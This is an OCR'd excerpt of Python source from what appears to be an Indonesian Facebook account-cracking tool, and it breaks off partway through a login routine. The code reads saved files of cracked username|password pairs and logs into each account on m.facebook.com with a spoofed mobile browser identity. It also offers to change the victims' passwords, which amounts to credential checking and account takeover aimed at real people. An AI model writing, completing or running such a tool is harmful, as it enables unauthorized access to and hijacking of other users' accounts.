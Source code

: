 def file_cp():
	dirs = os.listdir('CP')
	print ("%s%s%s%s\033[0m\033[0mPilih Hasil Crack Yg Tersimpan Untuk Cek Opsi %s\n"%(U,til,O,U,O))
	for file in dirs:
		print("%s%s\033[0m%s"%(U,til,file));jeda(0.07)
	try:
		print("\n%s%s%s\033[0mMasukan file [ CTH%s: %sCP-%s.txt%s ]"%(U,til,O,M,K,waktu,O))
		opsi()
	except IOError:
		print ('%s%s\033[0mFile Tidak Ada'%(M,til))
		exit()

def opsi():
	CP = ("CP/")
	romi = input("%s%s%s\033[0mNama file %s> %s"%(U,til,O,M,K))
	if romi == "":
		print(" [+] Isi Yang Benar "%(M,til));jeda(2)
		back()
	try:
		file_cp = open(CP+romi, "r").readlines()
	except IOError:
		exit("\n%s%s\033[0mNama File %s\033[0m Tidak Tersedia"%(M,til,romi))
	jalan("%s%s%s\033[0mMode Pesawatkan Terlebih Dahulu 5 Detik "%(U,til,O))
	pw=input("\n%s%s%s\033[0mUbah Sandi Pada Akun One Tab? y/t %s> %s"%(U,til,O,M,K))
	if pw in['y','Y']:
		ubah_pass.append("ubah_sandi")
		pw2 = input("%s%s%s\033[0mMasukan Sandi %s> %s"%(U,til,O,M,K))
		if len(pw2) <= 5:
			print("%s%s Sandi Minimal 6 Karakter "%(M,til))
		else:
			pwbaru.append(pw2)
	print ("%s%s%s\033[0mTotal Akun %s: %s%s "%(U,til,O,M,K,str(len(file_cp))))
	nomor = 0
	for fb in file_cp:
		akun = fb.replace("\n","")
		ngecek  = akun.split("|")
		nomor+=1
		print("\n%s%s.%s\033[0mLogin Akun %s> %s%s"%(H,str(nomor),O,M,K,akun.replace(" *--> ","")));jeda(0.07)
		try:
			mengecek(ngecek[0].replace("",""), ngecek[1])
		except requests.exceptions.ConnectionError:
			continue
	print("\n%s%s%s\033[0mSelesai Mengecek Akun"%(U,til,O));jeda(0.07)
	input('%s%s%s[%s Enter%s ]'%(U,til,O,U,O))
	back()
	
data = {}
data2 = {}

def mengecek(user,pw):
	global loop,ubah_pass,pwbaru
	session=requests.Session()
	url = "https://m.facebook.com"
	session.headers.update({"Host":"m.facebook.com","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9","referer":"https://mbasic.facebook.com/","user-agent":"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]"})
	soup=bs4.BeautifulSoup(session.get(url+"/login/?next&ref=dbl&fl&refid=8").text,"html.parser")
	link=soup.find("form",{"method":"post"})
	for x in soup("input"):
		data.update({x.get("name"):x.get("value")})
	data.update({"email":user,"pass":pw})